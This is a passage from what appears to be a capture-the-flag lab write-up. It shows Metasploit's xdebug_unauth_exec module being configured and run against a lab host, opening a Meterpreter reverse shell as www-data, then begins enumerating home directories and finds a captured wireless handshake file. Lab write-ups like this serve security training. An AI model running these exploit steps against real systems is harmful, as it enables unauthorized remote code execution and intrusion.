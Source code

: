 ```bash
Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/http/xdebug_unauth_exec) > set rhosts 10.129.124.136
rhosts => 10.129.124.136
msf6 exploit(unix/http/xdebug_unauth_exec) > set lhost 10.10.14.66
lhost => 10.10.14.66
```

After the completion of the necessary setup, we proceed to the exploitation of our target.

```bash
msf6 exploit(unix/http/xdebug_unauth_exec) > run
[*] Started reverse TCP handler on 10.10.14.66:4444 
[*] 10.129.124.136:80 - Waiting for client response.
[*] 10.129.124.136:80 - Receiving response
[*] 10.129.124.136:80 - Shell might take upto a minute to respond.Please be patient.
[*] 10.129.124.136:80 - Sending payload of size 2026 bytes
[*] Sending stage (40004 bytes) to 10.129.124.136
[*] Meterpreter session 1 opened (10.10.14.66:4444 -> 10.129.124.136:48782) at 2025-08-14 07:40:26 -0400

meterpreter > shell
Process 23 created.
Channel 0 created.
whoami
www-data
```

After our target has successfully been exploited, a reverse shell is spawned, allowing system command execution.

---

## User Flag

Having the initial foothold on the target, it's time to get user access.

Currently we are logged as `www-data`. Enumerating the filesystem, we search for useful configuration files, logs, and anything that can provide sufficient information to gain user access.

Starting off by searching on `/home`, the user `zeus` is found. Inside the directory there is a `airgeddon` sub-directory containing binaries, and installation configurations.

Peeking into each file and directory, we find in `captured` a `captured.cap` file, following the extension that `airodump-ng` usually adds, for captured wireless network handshakes.
